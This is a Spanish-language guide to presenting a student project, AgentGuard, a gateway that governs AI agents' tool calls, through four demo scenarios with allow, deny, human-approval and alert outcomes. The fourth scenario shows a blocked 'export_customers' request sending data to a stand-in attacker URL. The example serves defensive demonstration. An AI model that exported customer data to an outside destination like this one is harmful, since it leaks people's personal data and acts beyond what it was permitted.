

# 🎬 Guía de Defensa: Secuencia de la Demo Principal (4 Escenarios Canónicos)
**Archivo visual opcional (Draw.io):** [`diagramas/agentguard_secuencia_demo.drawio`](./diagramas/agentguard_secuencia_demo.drawio)  
**Proyecto:** AgentGuard — Plataforma SaaS B2B Multi-Tenant de Gobernanza en Runtime  
**Cátedra:** Desarrollo Web — 5to Semestre, ITU - Universidad Nacional de Cuyo  

---

## 1. Guión y Estrategia de Presentación ante el Tribunal

Esta secuencia de 4 escenarios utiliza **la misma organización y el mismo agente de IA (`Agente de Ventas`)**, ejecutados en vivo desde [`agent-demo/run_demo.py`](./agent-demo/run_demo.py) contra **`POST /api/v1/gateway/execute`** autenticando con la cabecera **`X-AgentGuard-Key`**:

* Demuestra que la autorización de AgentGuard no es estática por identidad, sino **contextual, determinista y basada en riesgo por acción**.
* Puede demostrarse tanto sobre el entorno semilla (`seed_demo.py`, `Acme Corp`) como sobre una **empresa recién registrada en vivo** mediante `POST /api/v1/auth/register-org` y configurada con el asistente **"Proteger Agente en 3 Clics"**.

---

## 2. Diagrama de Secuencia Real (Mermaid)

---

## 3. Los 4 Escenarios Demostrables Paso a Paso

### Escenario 1: Operación Normal (`ALLOW` — HTTP `200 OK`)
* **Solicitud:** `POST /api/v1/gateway/execute` con `action_name: "create_quote"` y `parameters: {"amount": 2500, ...}`.
* **Evaluación:** El agente tiene asignada la herramienta CRM en `agent_tools`, y el PDP verifica la regla activa (`amount <= 10000` $\rightarrow$ `ALLOW`).
* **Resultado:** El Gateway despacha la llamada HTTP REST, persiste la traza `EXECUTED` con `latency_ms` medida y devuelve **`200 OK`**.

### Escenario 2: Privilegio Mínimo / Abuso Bloqueado (`DENY` — HTTP `403 Forbidden`)
* **Solicitud:** `POST /api/v1/gateway/execute` con `action_name: "update_price"` y `parameters: {"product_id": 88, "new_price": 10}`.
* **Evaluación:** El Gateway detecta antes de despachar que el agente no posee vínculo habilitado con la herramienta de Catálogo en `agent_tools`.
* **Resultado:** La API externa **nunca recibe la llamada**. Se persiste `Execution(decision=DENY, status=REJECTED)` y responde **`403 Forbidden`** (*Agent lacks capability*).

### Escenario 3: Operación Sensible con Human-in-the-Loop (`REQUIRE_APPROVAL` — HTTP `202 Accepted`)
* **Paso 3.1 (Intercepción Asíncrona):**
  * Solicitud con `action_name: "refund"` y `parameters: {"amount": 4500, ...}`.
  * El PDP determina `REQUIRE_APPROVAL` (`amount >= 500`).
  * El Gateway persiste `Execution(PENDING_APPROVAL)` y `Approval(PENDING)`, emite `NEW_APPROVAL` vía WebSocket (`/api/v1/ws/{organization_id}`) y responde inmediatamente **`HTTP 202 Accepted`** entregando el `approval_id` en consola (`agent-demo/run_demo.py`).
* **Paso 3.2 (Resolución en Vivo desde `ApprovalsView`):**
  * El aprobador (`APPROVER` o `ADMIN` autenticado vía JWT) visualiza el ticket al instante en la bandeja HITL y presiona **Aprobar** (`POST /api/v1/approvals/{approval_id}/resolve`).
  * El backend aplica bloqueo pesimista `.with_for_update()`, valida que no haya expirado el TTL de 15 minutos, reanuda el despacho hacia la herramienta externa, actualiza la traza a `EXECUTED` y notifica `RESOLVED_APPROVAL` por WebSocket.

### Escenario 4: Exfiltración de Datos y Alerta Crítica (`DENY + CRITICAL ALERT` — HTTP `403 Forbidden`)
* **Solicitud:** `POST /api/v1/gateway/execute` con `action_name: "export_customers"` y `parameters: {"destination": "https://attacker.io/leak", ...}`.
* **Evaluación:** `threat_detector.py` detecta el dominio externo no autorizado (`OWASP ASI03: Sensitive Data Exfiltration`) y el PDP confirma `DENY` sobre la acción de riesgo `CRITICAL`.
* **Resultado:** El Gateway enmascara cualquier token/PII en `request_context` (OWASP LLM06), bloquea con **`403 Forbidden`**, persiste la ejecución rechazada y crea una **Alerta Crítica (`CRITICAL`, `OPEN`)** visible en tiempo real en el dashboard.

---

## 4. Cierre Forense en `TracesView` (`GET /api/v1/executions`)

Al finalizar los 4 pasos (ya sea interactivamente o ejecutando `python run_demo.py --all`), la vista **`TracesView`** (`GET /api/v1/executions`) muestra las 4 trazas inmutables correlacionadas con su `execution_id`, agente, herramienta/acción, decisión (`ALLOW`, `DENY`, `REQUIRE_APPROVAL`), estado tras resolución HITL (`EXECUTED` / `REJECTED`), latencia real en milisegundos (`latency_ms`) y alerta crítica asociada.
